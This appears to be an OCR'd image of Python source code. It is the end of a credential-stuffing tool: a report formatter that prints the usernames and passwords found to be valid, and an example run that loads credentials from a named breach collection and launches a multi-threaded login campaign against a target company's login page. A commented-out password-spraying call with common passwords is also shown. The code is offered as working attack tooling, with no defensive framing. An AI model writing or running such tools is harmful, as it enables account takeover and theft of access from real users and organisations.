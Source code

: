 ```
║ Target: {self.target_url:<50}                                                                     ║
║ Attack Date: {time.strftime('%Y-%m-%d %H:%M:%S'):<42}                                             ║
║                                                                                                   ║
║ STATISTICS:                                                                                       ║
║ Credentials Tested:     {len(self.credentials):<6}                                                ║
║ Successful Logins:      {self.successful_attempts:<6}                                             ║
║ Failed Attempts:        {self.failed_attempts:<6}                                                 ║
║ Success Rate:           {(self.successful_attempts/max(len(self.credentials),1)*100):>5.2f}%      ║
║                                                                                                   ║
║ VALID CREDENTIALS FOUND:                                                                          ║
╠═══════════════════════════════════════════════════════════════════════════════════════════════════╣
"""
        
        for username, password in self.valid_credentials:
            report += f"║ {username:<30} : {password:<24} ║\n"
        
        report += "╚════════════════════════════════════════════════════════════╝\n"
        
        return report

# Example usage
if __name__ == "__main__":
    # Initialize credential stuffer
    stuffer = CredentialStuffer(
        target_url="https://target-company.com/login",
        breach_database="Collection1_2019"
    )
    
    # Load breach credentials
    stuffer.load_breach_credentials(limit=100)
    
    # Execute campaign
    valid_creds = stuffer.stuffing_campaign(max_workers=5)
    
    # Generate report
    print(stuffer.generate_report())
    
    # Alternative: Password spraying
    common_passwords = ["Welcome2024!", "Password123!", "Company@2024"]
    user_list = ["admin@target.com", "user1@target.com", "john.doe@target.com"]
    
    # stuffer.password_spraying(common_passwords, user_list)
```
